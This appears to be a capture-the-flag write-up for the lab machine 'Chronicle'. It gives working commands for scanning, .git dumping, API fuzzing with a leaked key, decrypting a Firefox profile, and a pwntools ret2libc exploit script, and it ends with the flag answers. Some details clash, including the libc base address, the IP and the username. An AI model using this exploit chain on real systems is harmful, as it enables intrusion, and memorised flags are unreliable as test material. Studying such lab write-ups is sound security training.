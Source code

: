 # Chronicle
## 07-06-2022
## level : easy


Machine IP : `10.10.209.103`



## Challenge

Scan the Machine with Nmap :
```
nmap -sV 10.10.209.103 -oN chronicle_sv.txt

```

Gobuster Scan 
```
gobuster dir -u http://10.10.209.103 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 | tee directory.txt
```

We can see that there is a folder called `old`

lets brows to that website and again run gobuster on that endpoint
```
gobuster dir -u http://10.10.209.103/old/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 | tee directory.txt
```

Now we can see that there is a `.git` folder available 

Just downlaod the folder 

```
wget http://10.10.209.103/old/.git --recursive --continue
```

Now just see the git logs and code of the site and how it works.

in the forgot password code we found a `/api/` endpoint

we will use this to exploit and also we've found username as `someone` and a api key.


so lets just modify the forgot password request to 
```
POST /api/admin HTTP/1.1
Host: 10.10.209.103:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.209.103:8081/forgot
Upgrade-Insecure-Requests: 1

{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}

```

But that also didn't work for use .

Lets now try to find a username using the ffuf
```
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}' -u http://10.10.209.103:8081/api/FUZZ -fw 2 

```

So Now we have found a username.

lets send the request again with the new username
```
curl -X POST http://10.10.110.85:8081/api/tommy -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}'

```
Now we got a password for this user

Now lets login with SSH

We Just logged in to the system using the SSH


### Privilege Escalation

After login we can see that there is a firefox backup folder lets download it using the python web server

then use this tool with password `password1`
```
https://github.com/unode/firefox_decrypt
```

Now we got a password and a username lets login as the another user

```
su crulJ
```

Now inside the `mailing` forlder we have a binary file.

Now use the command to find out the libc base address
```
ldd smail
```
The base address is : `0x00007ffff7ffa000`


Getting system location using the above found library 
```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
```
The offset of system is : `0x4f550`

Find the `/bin/bash` location in that library
```
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep '/bin/sh'
```

We've found the address of `/bin/sh` is `1b3e1a`

Find the return address of the pointer
```
objdump -d smail | grep ret

```

The return address is `400556`

Lets build the exploit using python
```
#!/usr/bin/python3
from pwn import *

p = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
binsh = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
payload += p64(binsh)
payload += p64(sys)
payload += p64(0x0)


p.clean()
p.sendline("2")
p.sendline(payload)
p.interactive()




```

If any error occured regarding pwntool version
```
echo "never" > /home/carlJ/.cache/.pwntools-cache-3.6/update
```

now just run the exploit
```
chmod +x exp
./exp
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| user.txt  | 7ba840222ecbdb57af4d24eb222808ad |
| root.txt  | f21979de76c0302154cc001884143ab2 |









#    THE END 
